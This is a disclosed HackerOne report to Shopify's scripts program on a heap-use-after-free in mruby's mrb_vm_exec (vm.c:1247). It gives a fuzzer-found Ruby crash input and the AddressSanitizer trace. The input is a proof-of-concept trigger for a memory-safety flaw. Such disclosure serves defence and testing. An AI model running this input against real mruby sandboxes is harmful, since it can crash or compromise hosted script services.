 # heap-use-after-free in mrb_vm_exec - vm.c:1247

## Report Details
- **Report ID**: 222294
- **URL**: https://hackerone.com/reports/222294
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-19T22:17:20.987Z
- **Disclosed**: 2017-05-21T14:03:23.319Z

## Reporter
- **Username**: ilsani
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Following input causes a heap-use-after-free in `mrb_vm_exec` (vm.c:1247):
```
g=0.times.p{}
a %w{0 0 0 0 0 0 0 0 0 0
0 0 0 0
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0
0 0 0 0 0
0 0 0 0 0 0 0 0 0 0 0
0 0 0 0 0 0 0
0 0 0 0 0
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0
0 { 0 } 0 0 0 0 0 0 0 0 0
0 0 0
0 0 0 0
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 } 0}.(&:e)
```
```
==3480==ERROR: AddressSanitizer: heap-use-after-free on address 0x61d00001e0c0 at pc 0x0000004385b1 bp 0x7ffd93156930 sp 0x7ffd9315692
8                                                                
WRITE of size 8 at 0x61d00001e0c0 thread T0                         
    #0 0x4385b0 in mrb_vm_exec /tmp/mruby/src/vm.c:1247
    #1 0x4407f9 in mrb_vm_run /tmp/mruby/src/vm.c:854
    #2 0x4407f9 in mrb_top_run /tmp/mruby/src/vm.c:2705
    #3 0x58652d in mrb_load_exec /tmp/mruby/mrbgems/mruby-compiler/core/parse.y:
5780                         
    #4 0x403bbe in main /tmp/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:2
47                           
    #5 0x7f52c49752b0 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x202b0)
    #6 0x402e19 in _start (/home/debian/work/fuzz/mruby/fuzz/20170419/mruby+0x402e19)
                             
0x61d00001e0c0 is located 64 bytes inside of 2048-byte region [0x61d00001e080,0x61d00001e880)
freed by thread T0 here:     
    #0 0x7f52c5753090 in realloc (/usr/lib/x86_64-linux-gnu/libasan.so.3+0xc2090)
    #1 0x4d3ee0 in mrb_realloc_simple /tmp/mruby/src/gc.c:202
    #2 0x4d3ee0 in mrb_realloc /tmp/mruby/src/gc.c:216
                             
previously allocated by thread T0 here:
    #0 0x7f52c5753090 in realloc (/usr/lib/x86_64-linux-gnu/libasan.so.3+0xc2090)
    #1 0x4d3ee0 in mrb_realloc_simple /tmp/mruby/src/gc.c:202
    #2 0x4d3ee0 in mrb_realloc /tmp/mruby/src/gc.c:216

SUMMARY: AddressSanitizer: heap-use-after-free /tmp//mruby/src/vm.c:1247 in mrb_vm_exec
```

## Attachments
No attachments
